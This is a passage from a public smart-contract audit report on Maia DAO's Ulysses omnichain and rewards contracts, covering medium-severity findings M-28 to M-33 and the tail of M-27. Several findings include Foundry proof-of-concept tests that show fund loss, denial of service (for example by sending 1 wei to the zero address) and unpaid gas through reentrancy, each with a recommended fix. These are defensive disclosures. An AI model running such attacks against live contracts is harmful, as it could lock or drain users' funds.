            uint256 balanceUserBeforeFtm =  MockERC20(ftmGlobalToken).balanceOf(userVirtualAccount);
            require(balanceUserBeforeAvax == 100 ether, "User Balance should be 100 avax");
            require(balanceUserBeforeFtm == 100 ether, "User Balance should be 100 ftm");

            //User Approves spend by multicall contract
            hevm.startPrank(address(userVirtualAccount));
            MockERC20(ftmGlobalToken).approve(address(rootMulticallRouter.multicallAddress()), 100 ether);
            MockERC20(newAvaxAssetGlobalAddress).approve(address(rootMulticallRouter.multicallAddress()), 100 ether);
            hevm.stopPrank();

            //toChain
            uint24 toChain = ftmChainId;

            //RLP Encode Calldata
            bytes memory data = abi.encode(calls, outputMultipleParams, toChain);

            //Pack FuncId
            packedData = abi.encodePacked(bytes1(0x03), data);
            
        }


        uint256 balanceBeforePortAvax = MockERC20(newAvaxAssetGlobalAddress).balanceOf(address(rootPort));
        uint256 balanceBeforePortFtm = MockERC20(ftmGlobalToken).balanceOf(address(rootPort));


        
        //Call Deposit function
        encodeCallNoDeposit(
            payable(avaxMulticallBridgeAgentAddress),
            payable(multicallBridgeAgent),
            1,
            packedData,
            0.0001 ether,
            0.00005 ether,
            avaxChainId
        );


        uint256 balanceUserAfterAvax = MockERC20(newAvaxAssetGlobalAddress).balanceOf(userVirtualAccount);
        uint256 balanceUserAfterFtm = MockERC20(ftmGlobalToken).balanceOf(userVirtualAccount);
        require(balanceUserAfterAvax == 0 ether, "User Balance should be 0 global avax");
        require(balanceUserAfterFtm == 0 ether, "User Balance should be 0 global ftm");


        uint256 balanceAfter = MockERC20(newAvaxAssetGlobalAddress).balanceOf(address(rootMulticallRouter));
        uint256 balanceFtmAfter = MockERC20(ftmGlobalToken).balanceOf(address(rootMulticallRouter));

        require(balanceAfter == 0, "Router Balance should be cleared");
        require(balanceFtmAfter == 0, "Router Balance should be cleared");


        uint256 balanceAfterPortAvax = MockERC20(newAvaxAssetGlobalAddress).balanceOf(address(rootPort));
        uint256 balanceAfterPortFtm = MockERC20(ftmGlobalToken).balanceOf(address(rootPort));

        require(balanceAfterPortAvax ==  balanceBeforePortAvax + 100 ether, "Root port global avax Balance should be increased by 100");
        require(balanceAfterPortFtm ==  balanceBeforePortFtm + 50 ether, "Root port global ftm Balance should be increased by 50");

        uint32 settlementNonce = 1;

        Settlement memory settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);

        console2.log("Status after fallback:", settlement.status == SettlementStatus.Failed ? "Failed" : "Success");

        require(settlement.status == SettlementStatus.Success, "Settlement status should be success.");

       
        bytes memory anyFallbackData = abi.encodePacked(bytes1(0x01), address(userVirtualAccount), uint32(settlementNonce), packedData, uint128(0.0001 ether), uint128(0.00005 ether));
        hevm.prank(local`AnyCall`ExecutorAddress);
        multicallBridgeAgent.anyFallback(anyFallbackData);

        Settlement memory settlement3 = multicallBridgeAgent.getSettlementEntry(settlementNonce);

        console2.log("Status after fallback:", settlement3.status == SettlementStatus.Failed ? "Failed" : "Success");

        require(settlement3.status == SettlementStatus.Failed, "Settlement status should be failed after fallback.");

        //Attempt to Redeem settlement since its now in failed state via fallback
        hevm.startPrank(address(userVirtualAccount));
        // @audit this will fail with SettlementRedeemUnavailable() since settlement has no owner
        multicallBridgeAgent.redeemSettlement(settlementNonce);
        hevm.stopPrank();


    }

The POC above demonstrates in detail how this problem develops. In this single transaction, it is possible for a user to leverage the multicall feature to transfer their own funds to the `rootMulticallRouter`, which would then proceed to attempt to settle transactions in the destination chain the user chose.

The following discussion is based on POC inputs:

For FTM, a user is requesting an amount of 100 and a deposit of 50. This will cause the `root bridge agent` to update its state, which will effectively increase its port balance of FTM global by 50. It will also effectively burn the remaining 50 that is in the `multirouter`.

For Avax Global, a user is requesting an amount of 100 and a deposit of 0. This will cause the `root bridge agent` to update its state, which will effectively increase its port balance of AVAX global by 100; the full amount.

If the transfer to `FTM bridge agent` is successful, it will settle the transaction for the user in the destination chain, which will do the following:

For FTM global, it will bridge in (mint) 50 local FTM tokens for the user. It will also withdraw 50 global tokens and give them to the user. So the user ends up with the same amount of tokens they started with, except they now have 50 global FTM and 50 local FTM.

For AVAX global, it will bridge in or mint 100 local AVAX tokens for the user. So the user ends up with the same amount of tokens they started with, except they now have 100 local AVAX tokens.

But what if the `calloutandbridge` from the root to branch bridge agent fails, maybe due to low gas. The `anyfallback` if fired successfully in the root bridge, will enable a user to either retry or redeem the settlement. The problem is the `_approveAndCallOut` function that the `multicallrootrouter` set the owner to the zero address. This means the owner of the settlement will be the zero address and the user will have no way to retry or redeem their settlement in the destination branch. This effectively means, the user has lost the entire amount of global AVAX and FTM they initially deposited with the router to process their request. Not only that, but the token accounting in the system will not be in balance. For example, the total amount of global AVAX in the system will not equal the total amount of local AVAX; hence the invariant of the 1:1 supply is broken. The broken invariant applies to FTM as well. Specifically, FTM global `>` FTM local by 50, and AVAX global `>` AVAX local by 100.

### Recommended Mitigation Steps

                _approveAndCallOut(
                outputParams.recipient, // @audit: fixed here by updating the owner of settlement
                outputParams.recipient,
                outputParams.outputToken,
                outputParams.amountOut,
                outputParams.depositOut,
                toChain
            );

Run the poc again with this modification and it should pass.

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/377#issuecomment-1629191023)**

**[0xBugsy (Maia) acknowledged, but disagreed with severity and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/377#issuecomment-1632718312):**
 > Unsigned actions/actions that do not make use of the Virtual Account are unadvised for token deposits and thus are left unimplemented in the `MulticallRootRoute`. But if someone wants to reverse and create a settlement, despite not having the settlement attached to your account, that is up to the person developing the infrastructure around that to manage, as we won't be supporting those actions in our systems/frontend integrations. Although, I do agree the documentation around this should be much much clearer.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/377#issuecomment-1649339085):**
 > Medium seems appropriate, as a scenario that leads to loss of funds is not explicitly documented as erroneous behavior.

***

## [[M-28] Ulysses omnichain - `addbridgeagentfactory` in `rootPort` is not functional](https://github.com/code-423n4/2023-05-maia-findings/issues/372)
*Submitted by [zzebra83](https://github.com/code-423n4/2023-05-maia-findings/issues/372), also found by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/746), [Fulum](https://github.com/code-423n4/2023-05-maia-findings/issues/594), [0xMilenov](https://github.com/code-423n4/2023-05-maia-findings/issues/574), and [its\_basu](https://github.com/code-423n4/2023-05-maia-findings/issues/847)*

The `addbridgeagentfactory` function is responsible for adding a new bridge agent factory to the `rootPort`.

However the current implementation is faulty. The faulty logic is in the following line:

    bridgeAgentFactories[bridgeAgentsLenght++] = _bridgeAgentFactory;

A couple of problems here: The function is attempting to access an index that does not yet exist in the `bridgeAgentFactories` array; this should return an out of bounds error. The function also does not update the `isBridgeAgentFactory` mapping; once a new bridge agent factory is added, a new Dict item with a key equal to the address of new bridge agent factory and value of true is added. This mapping is then used to enable toggling the factory, i.e. enabling or disabling it via the `toggleBridgeAgentFactory` function.

Impact: The code hints that this is a key governance action. It does not work at the moment; however, with regards to impact, at this moment it is unclear from the code what the overall impact would be to the functioning of the protocol. That is why it is rated as medium rather than high. Feedback from sponsors is welcome to determine severity.

### Proof of Concept

        function testAddRootBridgeAgentFactoryBricked() public {
        //Get some gas
        hevm.deal(address(this), 1 ether);

        RootBridgeAgentFactory newBridgeAgentFactory = new RootBridgeAgentFactory(
            ftmChainId,
            WETH9(ftmWrappedNativeToken),
            local`AnyCall`Address,
            address(ftmPort),
            dao
        );

        rootPort.addBridgeAgentFactory(address(newBridgeAgentFactory));
        
        require(rootPort.bridgeAgentFactories(0)==address(bridgeAgentFactory), "Initial Factory not in factory list");
        require(rootPort.bridgeAgentFactories(1)==address(newBridgeAgentFactory), "New Factory not in factory list");

    }

The above POC demonstrates this; it attempts to call the function in question and returns an "Index out of bounds" error.

### Recommended Mitigation Steps

        function addBridgeAgentFactory(address _bridgeAgentFactory) external onlyOwner {
        // @audit this function is broken
        // should by implemented as so
        isBridgeAgentFactory[_bridgeAgentFactory] = true;
        bridgeAgentFactories.push(_bridgeAgentFactory);
        bridgeAgentFactoriesLenght++;

        emit BridgeAgentFactoryAdded(_bridgeAgentFactory);
    }

The correct implementation is above. This is also identical to how the branch ports implement this functionality.

### Assessed type

Governance

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/372#issuecomment-1632699891)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/372#issuecomment-1709172882):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/372).

***

## [[M-29] `BribesFactory::createBribeFlywheel` can be completely blocked from creating any `Flywheel` by a malicious actor](https://github.com/code-423n4/2023-05-maia-findings/issues/362)
*Submitted by [ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/362), also found by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/742) and [lukejohn](https://github.com/code-423n4/2023-05-maia-findings/issues/342)*

A malicious actor can completely block the creation of any bribe `flywheel` that is created via `BribesFactory::createBribeFlywheel` because of the way the `FlywheelBribeRewards` parameter is set.
Initially, it is set [to the zero address in its constructor](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BribesFactory.sol#L84) and then reset to [a different address via the `FlywheelCore::setFlywheelRewards` call](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BribesFactory.sol#L96) (in the same transaction).

```Solidity
    function createBribeFlywheel(address bribeToken) public {
        // ...

        FlywheelCore flywheel = new FlywheelCore(
            bribeToken,
            FlywheelBribeRewards(address(0)),
            flywheelGaugeWeightBooster,
            address(this)
        );

        // ...

        flywheel.setFlywheelRewards(address(new FlywheelBribeRewards(flywheel, rewardsCycleLength)));
        
        // ...
    }
```

The `FlywheelCore::setFlywheelRewards` function verifies if the current `flywheelRewards` address has any balance of the provided reward token and, if so, [transfers it to the new `flywheelRewards` address](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/base/FlywheelCore.sol#L125-L129).

```Solidity
    function setFlywheelRewards(address newFlywheelRewards) external onlyOwner {
        uint256 oldRewardBalance = rewardToken.balanceOf(address(flywheelRewards));
        if (oldRewardBalance > 0) {
            rewardToken.safeTransferFrom(address(flywheelRewards), address(newFlywheelRewards), oldRewardBalance);
        }
```

The issue is, that `FlywheelCore::setFlywheelRewards` does not check if the current `FlywheelCore::flywheelRewards` address is `0` and thus attempts to transfer from `0` address if that address has any reward token in it. A malicious actor can simply send 1 wei of `rewardToken` to the zero address and all `BribesFactory::createBribeFlywheel` will fail because of the attempted transfer of tokens from the `0` address.

This is also an issue for any 3rd party project that wishes to use MaiaDAO's `BribesFactory` implementation, that uses a burnable reward token, because most likely normal users (non-malicious) have already burned (sent to zero address) tokens; so the creating of the bribe factories would fail by default.

Another observation is, because all MaiaDAO project tokens use the `Solmate ERC20` implementation, they [all can transfer to 0 (burn)](https://github.com/transmissions11/solmate/blob/main/src/tokens/ERC20.sol#L76-L83), which makes this scenario real even if using project tokens as reward tokens.

### Proof of Concept

A coded POC follows, add it to `test\gauges\factories\BribesFactoryTest.t.sol`:

```Solidity
    import {stdError} from "forge-std/Test.sol";

    function testDosCreateBribeFlywheel() public {
        MockERC20 bribeToken3 = new MockERC20("Bribe Token3", "BRIBE3", 18);
        bribeToken3.mint(address(this), 1000);
        
        // transfer 1 wei to zero address (or "burn" on other contracts)
        bribeToken3.transfer(address(0), 1);
        assertEq(bribeToken3.balanceOf(address(0)), 1);
                
        // hevm.expectRevert(stdError.arithmeticError); // for some reason this does not work, foundry error        
        // function reverts regardless with "Arithmetic over/underflow" because the way Solmate ERC20::transferFrom is implemented
        factory.createBribeFlywheel(address(bribeToken3)); 
    }
```

Observation: Because the `MockERC20` contract uses `Solmate ERC20` implementation, the error is `"Arithmetic over/underflow"` since `address(0)` did not pre-approve the token swap (evidently).

### Recommended Mitigation Steps

- If project tokens are to be used as reward tokens, consider using `OpenZeppelin ERC20` implementation (as [it does not allow transfer to 0 address](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol#L225-L233) if burn is not intended), or add checks to all project token contracts that transfer, as the `to` argument must never be `address(0)`.
- Modify `FlywheelCore::setFlywheelRewards` to not attempt any token transfer if the previous `flywheelRewards` is `address(0)`. Example implementation:

```diff
diff --git a/src/rewards/base/FlywheelCore.sol b/src/rewards/base/FlywheelCore.sol
index 308b804..eaa0093 100644
--- a/src/rewards/base/FlywheelCore.sol
+++ b/src/rewards/base/FlywheelCore.sol
@@ -123,9 +123,11 @@ abstract contract FlywheelCore is Ownable, IFlywheelCore {
 
     /// @inheritdoc IFlywheelCore
     function setFlywheelRewards(address newFlywheelRewards) external onlyOwner {
-        uint256 oldRewardBalance = rewardToken.balanceOf(address(flywheelRewards));
-        if (oldRewardBalance > 0) {
-            rewardToken.safeTransferFrom(address(flywheelRewards), address(newFlywheelRewards), oldRewardBalance);
+        if (address(flywheelRewards) != address(0)) {
+            uint256 oldRewardBalance = rewardToken.balanceOf(address(flywheelRewards));
+            if (oldRewardBalance > 0) {
+                rewardToken.safeTransferFrom(address(flywheelRewards), address(newFlywheelRewards), oldRewardBalance);
+            }
         }
 
         flywheelRewards = newFlywheelRewards;

```

### Assessed type

DoS

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/362#issuecomment-1631204172)**

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/362#issuecomment-1655677963)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/362#issuecomment-1709173636):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/362).

***

## [[M-30] A user can call `callOutSigned` without paying for gas by reentering `anyExecute` with Virtual Account](https://github.com/code-423n4/2023-05-maia-findings/issues/331)
*Submitted by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/331)*

`Virtual account` can perform external calls during the root chain execution process. If it calls `callOut` at the Arbitrum Branch Bridge Agent, the call `anyExecute` in Root Bridge Agent will be reentered. The call `lock` will not work if a user initiates the process on another branch chain. Call `_payExecutionGas` will not charge gas for the reentrancy call. Meanwhile, the storage variables `initialGas` and `userFeeInfo` will be deleted. As a result, no gas will be charged for the original call.

### Proof of Concept

    function anyExecute(bytes calldata data)
        external
        virtual
        requiresExecutor
        returns (bool success, bytes memory result)
    {
        uint256 _initialGas = gasleft();
        uint24 fromChainId;
        UserFeeInfo memory _userFeeInfo;

        if (local`AnyCall`ExecutorAddress == msg.sender) {
            initialGas = _initialGas;
            (, uint256 _fromChainId) = _getContext();
            fromChainId = _fromChainId.toUint24();

            _userFeeInfo.depositedGas = _gasSwapIn(
                uint256(uint128(bytes16(data[data.length - PARAMS_GAS_IN:data.length - PARAMS_GAS_OUT]))), fromChainId).toUint128();
            _userFeeInfo.gasToBridgeOut = uint128(bytes16(data[data.length - PARAMS_GAS_OUT:data.length]));
        } else {
            fromChainId = localChainId;
            _userFeeInfo.depositedGas = uint128(bytes16(data[data.length - 32:data.length - 16]));
            _userFeeInfo.gasToBridgeOut = _userFeeInfo.depositedGas;
        }

        if (_userFeeInfo.depositedGas < _userFeeInfo.gasToBridgeOut) {
            _forceRevert();
            return (true, "Not enough gas to bridge out");
        }

        userFeeInfo = _userFeeInfo;

        // execution part
        ............

        if (initialGas > 0) {
            _payExecutionGas(userFeeInfo.depositedGas, userFeeInfo.gasToBridgeOut, _initialGas, fromChainId);
        }
    }

<!---->

    function _payExecutionGas(uint128 _depositedGas, uint128 _gasToBridgeOut, uint256 _initialGas, uint24 _fromChain) internal {
        delete(initialGas);
        delete(userFeeInfo);

        if (_fromChain == localChainId) return;

        uint256 availableGas = _depositedGas - _gasToBridgeOut;
        uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasleft());
        if (minExecCost > availableGas) {
            _forceRevert();
            return;
        }

        _replenishGas(minExecCost);

        accumulatedFees += availableGas - minExecCost;
    }

During the reentrancy call, `initialGas` will not be modified before the execution part; `_payExecutionGas` will be invoked, but it will directly return after deleting `initialGas` and `userFeeInfo`. As a result, after the execution part of the original call, `_payExecutionGas` will be passed, as `initialGas` is now zero.

### Recommended Mitigation Steps

Store `initialGas` and `userFeeInfo` in memory as local variables inside `anyExecute`.

### Assessed type

Reentrancy

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/331#issuecomment-1649558092)**

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/331#issuecomment-1650299437)**

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/331#issuecomment-1658093666):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.
> 

***

## [[M-31] Incorrect accounting logic for `fallback` gas will lead to insolvency](https://github.com/code-423n4/2023-05-maia-findings/issues/313)
*Submitted by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/313)*

### Lines of code

<br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L823> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L1044>

### Proof of Concept

    // on root chain
    function _payExecutionGas(uint128 _depositedGas, uint128 _gasToBridgeOut, uint256 _initialGas, uint24 _fromChain) internal {
        ......
        uint256 availableGas = _depositedGas - _gasToBridgeOut;
        uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasleft());

        if (minExecCost > availableGas) {
            _forceRevert();
            return;
        }

        _replenishGas(minExecCost);

        //Account for excess gas
        accumulatedFees += availableGas - minExecCost;
    }

    // on branch chain
    function _payFallbackGas(uint32 _depositNonce, uint256 _initialGas) internal virtual {
        ......
        IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), minExecCost);
        wrappedNativeToken.withdraw(minExecCost);
        _replenishGas(minExecCost);
    }

As above, when paying execution gas on the root chain, the excessive gas is added to `accumulatedFees`. So theoretically, all deposited gas is used up and no gas has been reserved for `anyFallback` on the branch chain. The withdrawl in `_payFallbackGas` on the branch chain will cause insolvency:

    // on branch chain
    function _payExecutionGas(address _recipient, uint256 _initialGas) internal virtual {
        ......
        uint256 gasLeft = gasleft();
        uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);

        if (minExecCost > gasRemaining) {
            _forceRevert();
            return;
        }

        _replenishGas(minExecCost);

        //Transfer gas remaining to recipient
        SafeTransferLib.safeTransferETH(_recipient, gasRemaining - minExecCost);
        ......
        }
    }

    // on root chain
    function _payFallbackGas(uint32 _settlementNonce, uint256 _initialGas) internal virtual {
        uint256 gasLeft = gasleft();
        uint256 minExecCost = tx.gasprice * (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);

        if (minExecCost > getSettlement[_settlementNonce].gasToBridgeOut) {
            _forceRevert();
            return;
        }

        getSettlement[_settlementNonce].gasToBridgeOut -= minExecCost.toUint128();
    }

As above, when paying execution gas on the branch chain, the excessive gas has be sent to the recipent. So therotically, all deposited gas is used up and no gas has been reserved for `anyFallback` on the root chain. `_payFallbackGas` does not `_replenishGas`, which will cause insolvency of the gas budget in `AnycallConfig`.

### Recommended Mitigation Steps

Deduct `fallback` gas from deposited gas.

### Assessed type

Context

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1654301154)**

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1655692181)**

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1655754684):**
 > Hey, I believe this is not a dup of [#786](https://github.com/code-423n4/2023-05-maia-findings/issues/786). This issue is mainly about accounting logic. I have described two scenes:
> 1. Execute on `root` and `fallback` on branch: insolvency of the port's weth balance.
> 2. Execute on `branch` and `fallback` on root: insolvency of the budget.
>  
> Even though fix from #786 is applied, the accounting logic is still incorrect. If the port's balance is reduced, it comes to scene 1: insolvency of the port's balance.
>
>  And this issue will cause insolvency of h-weth, so I think it reaches high.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1655877017):**
 > > As above, when paying execution gas on the root chain, the excessive gas is added to `accumulatedFees`. So theoretically, all deposited gas is used up and no gas has been reserved for `anyFallback` on the branch chain. The withdrawal in `_payFallbackGas` on the branch chain will cause insolvency.
> 
> 1. This isn't accurate. `fallback` gas for a call from the Root -> Branch is enforced and allocated in `_manageGasOut`, not `_payExecutionGas`, so the proposed fix will not lead to `hToken` insolvency on the Root. Although, the proposed fix should have the added detail that the balance should be obtained from `bridgeToRoot` and not a withdrawal. This can only be done once per failed deposit state, meaning it would need to be set to true and `FALLBACK_RESERVE` replenished to be deducted again.
> 
> > As above, when paying execution gas on the branch chain, the excessive gas has be sent to the recipent. So theoretically, all deposited gas is used up and no gas has been reserved for `anyFallback` on the root chain. `_payFallbackGas` does not `_replenishGas`, which will cause insolvency of the gas budget in `AnycallConfig`.
> 
> 2. This is also invalid since `MIN_FALLBACK_RESERVE` is enforced for keeping deposited gas in the Branch Port and gas is replenished upon `_payFallbackGas` withdrawing from the Port in an appropriate manner.
> 
> I believe this was marked as a duplicate, owing to the fact that in 1. you described a situation in #786, where a error exists and proposed the same appropriate fix.

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656470345):**
> Thanks for explaining @0xBugsy. To make my point clearer, I'll give an example:
>
> Suppose a user calls `retrieveDeposit` and deposited 20 unit gas. `depositedGas` is 20 and `gasToBridgeOut(remoteExecutionGas)` is `0`. On the root chain, the whole process does not involve `_manageGasOut`. In `_payExecutionGas`, suppose 12 unit is replenished and then 8 unit is added to `accumulatedFees`. On the branch chain, `fallback` costs 14 gas, and then 14 units are withdrawn from the port and replenished. Overall: 20 units in, 34 units out.
>
> As you mentioned, I believe `_manageGasOut` should be used to manage `fallback` gas, but it seems to be only managing remote execution gas. I'm not sure I've understood everything correctly, if I misunderstood something, please tell me.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656676212):**
 > I believe you are not considering the fact that `Fallback` Gas is reserved every time a remote call is initiated. So if in your scenario you are calling `retrieveDeposit`, this means that the deposit already has `fallback` gas reserved in the origin branch. We are also sure that `fallback` is yet to be triggered, so this balance has not been double spent. This is enforced directly in the callout functions in branches, whereas in the Root, this is enforced in the `_manageGasOut` where gas minimum is checked and assets are converted to destination chain gas.
> 
> Hope this made it clearer!

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656676910):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656714298):**
 > Hey @Trust @0xBugsy - sorry for delaying the judging process but I still need to add something.
>> "that deposit already has `fallback` gas reserved in the origin branch. We are also sure that `fallback` is yet to be triggered, so this balance has not been double spent."
> This is not true. The balance is double spent. Let's suppose the user deposited this gas in a tx on the branch. On the root chain, although tx fails and `anyExecute` returns false, gas is still charged (since it is not `forceReverted`). So double spending occurs (on root `anyExecute` and branch `anyFallback`).

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656723672):**
 > I believe there may have been some language barrier in our communication but what I now believe has happened is: 
> 
> 1. You disclosed everything that was covered in detail in #786.
> 2. Added the fact, that opposed to what #786 claims, porting the Branch functioning is not enough since once initiating a cross-chain call. We should always deduct the chain's `FALLBACK_RESERVE` from the deposited gas (in the root deduct branch `fallback` reserve gas units and in branch `reverse`), which would mean the solution put forward in #786 is not 100% accurate complete .
> 
> By the way, this was not at all made obvious in the issue took some reading between the lines, but happy we got to some understanding. Obviously, do correct me if my interpretation of what was said is incorrect in any way.

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656726800):**
 > @0xBugsy - Yeah, this is what I want to say. I'm sorry if my previous expression is not clear enough!

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656729258):**
 > Hi @Trust - to conclude, the core issue I described here is double spending of deposited gas which will lead to insolvency of the port's weth. I believe none of 786 or its dups has mentioned it. Thanks for your attention!

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/313#issuecomment-1656744312):**
 > Upon further inspection, the warden has uncovered a different root cause than previously dupped submissions. The risks associated are deemed of Medium severity.

***

## [[M-32] `VirtualAccount` cannot directly send native tokens ](https://github.com/code-423n4/2023-05-maia-findings/issues/307)
*Submitted by [ltyu](https://github.com/code-423n4/2023-05-maia-findings/issues/307)*

Certain functions require native tokens to be sent. These functions will revert.

### Proof of Concept

According to the Sponsor, `VirtualAccounts` can "call any of the `dApps` present in the Root Chain (Arbitrum) e.g. Maia, Hermes, Ulysses AMM and Uniswap." However, this is not the case, as `call()` is not `payable` and thus cannot send native tokens to other contracts. This is problematic because certain [functions](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BaseBranchRouter.sol#L58-L62) require native token transfers and will fail.

### Recommended Mitigation Steps

Consider creating a single `call()` function that has a `payable` modifier and `{value: msg.value}`. Be aware, that since `calls[i].target.call()` is in a loop, it is not advisable to add `payable` to the existing `call()`. This is because `msg.value` may be used multiple times, and is [unsafe](https://github.com/Uniswap/v3-periphery/issues/52).

### Assessed type

Payable

**[0xBugsy (Maia) acknowledged, but disagreed with severity](https://github.com/code-423n4/2023-05-maia-findings/issues/307#issuecomment-1632576421)**

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/307#issuecomment-1649374997):**
 > Breaking of interoperability with `dApps` on the hosting chain, contrary to docs, justifies Medium severity, in my opinion.

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/307#issuecomment-1655947185)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/307#issuecomment-1709927454):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/commit/03c829ba0ef3fd74de3cb4fcd1ff5a72512072e9).

***

## [[M-33] `unstakeAndWithdraw` inside `BoostAggregator` could lose `pendingRewards` in certain cases](https://github.com/code-423n4/2023-05-maia-findings/issues/287)
*Submitted by [said](https://github.com/code-423n4/2023-05-maia-findings/issues/287), also found by [Audinarey](https://github.com/code-423n4/2023-05-maia-findings/issues/698) and [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/89)*

When `BoosAggregator`'s `unstakeAndWithdraw` is triggered, it will try to unstake the uniswap NFT position token from the staker and get the pending rewards. If conditions are met, it will update the strategy and protocol rewards accounting, claim the rewards for strategy and finally, withdraw the NFT position tokens from the staker. However, if `pendingRewards` is lower than `DIVISIONER`, the accounting will not happen and can cause reward loss.

### Proof of Concept

Inside `unstakeAndWithdraw`, if `pendingRewards` is lower than `DIVISIONER`, the accounting update for `protocolRewards` and claim rewards for strategy will not happen:

<https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L109-L136>

```solidity
    function unstakeAndWithdraw(uint256 tokenId) external {
        address user = tokenIdToUser[tokenId];
        if (user != msg.sender) revert NotTokenIdOwner();

        // unstake NFT from Uniswap V3 Staker
        uniswapV3Staker.unstakeToken(tokenId);

        uint256 pendingRewards = uniswapV3Staker.tokenIdRewards(tokenId) - tokenIdRewards[tokenId];

        if (pendingRewards > DIVISIONER) {
            uint256 newProtocolRewards = (pendingRewards * protocolFee) / DIVISIONER;
            /// @dev protocol rewards stay in stake contract
            protocolRewards += newProtocolRewards;
            pendingRewards -= newProtocolRewards;

            address rewardsDepot = userToRewardsDepot[user];
            if (rewardsDepot != address(0)) {
                // claim rewards to user's rewardsDepot
                uniswapV3Staker.claimReward(rewardsDepot, pendingRewards);
            } else {
                // claim rewards to user
                uniswapV3Staker.claimReward(user, pendingRewards);
            }
        }

        // withdraw rewards from Uniswap V3 Staker
        uniswapV3Staker.withdrawToken(tokenId, user, "");
    }
```

However, when the token is staked again via `BoosAggregator` by sending the NFT position back, the `tokenIdRewards` rewards are updated, so the previous unaccounted rewards will be lost:

<https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L79-L93>

```solidity
    function onERC721Received(address, address from, uint256 tokenId, bytes calldata)
        external
        override
        onlyWhitelisted(from)
        returns (bytes4)
    {
        // update tokenIdRewards prior to staking
        tokenIdRewards[tokenId] = uniswapV3Staker.tokenIdRewards(tokenId);
        // map tokenId to user
        tokenIdToUser[tokenId] = from;
        // stake NFT to Uniswap V3 Staker
        nonfungiblePositionManager.safeTransferFrom(address(this), address(uniswapV3Staker), tokenId);

        return this.onERC721Received.selector;
    }
```

### Recommended Mitigation Steps

Two things can be done here, either just claim rewards to strategy without taking the protocol fee, or take the amount fully for the protocol.

### Assessed type

Error

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/287#issuecomment-1709218882):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/287).

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/287#issuecomment-1719576951)**

***

## [[M-34] `UlyssesToken.setWeights(...)` can cause user loss of assets on vault deposits/withdrawals](https://github.com/code-423n4/2023-05-maia-findings/issues/281)
